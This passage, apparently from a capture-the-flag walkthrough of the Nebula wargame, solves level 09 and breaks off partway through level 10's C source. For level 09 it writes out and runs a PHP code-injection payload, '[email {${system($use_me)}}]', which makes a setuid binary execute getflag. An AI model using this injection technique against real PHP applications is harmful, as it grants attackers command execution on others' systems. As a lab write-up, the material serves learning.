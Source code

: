 ``` plain
[email {${system()}}]
```

Cool. Now we want to run *getflag*, so how should we pass it to *system()*? Remember the unsued variable *$use_me*! 

At this point I injected some harmless printing functions inside an interpreter to check if the injection worked successfully, and when it did, I moved back to our particular case. So here's how the situation looks now:

* we want to run *getflag*

* we can run external commands in PHP with *system()*

* we have the $use_me parameter available and unused anywhere, so why not use it?

* we have to put the exploit into a file to be read by the binary

With all these requirements in mind, I created a file with the exploit:

``` plain
level09@nebula:/home/flag09$ cat /tmp/useme
[email {${system($use_me)}}]
```

Now we can finally use that $use_me variable, since whatever we place in it will be executed by *system()*. Running it now produces an error but it still does the job:

``` plain
level09@nebula:/home/flag09$ ./flag09 /tmp/useme getflag
You have successfully executed getflag on a target account
PHP Notice:  Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15) : regexp code on line 1
```

Pff, this was a difficult level, but really interesting and I learned something! 

### Level 10

The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call.

To do this level, log in as the level10 account with the password level10 . Files for this level can be found in /home/flag10. 

``` c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
 char *file;
 char *host;

 if(argc < 3) {
  printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
  exit(1);
 }

 file = argv[1];
 host = argv[2];

 if(access(argv[1], R_OK) == 0) {
```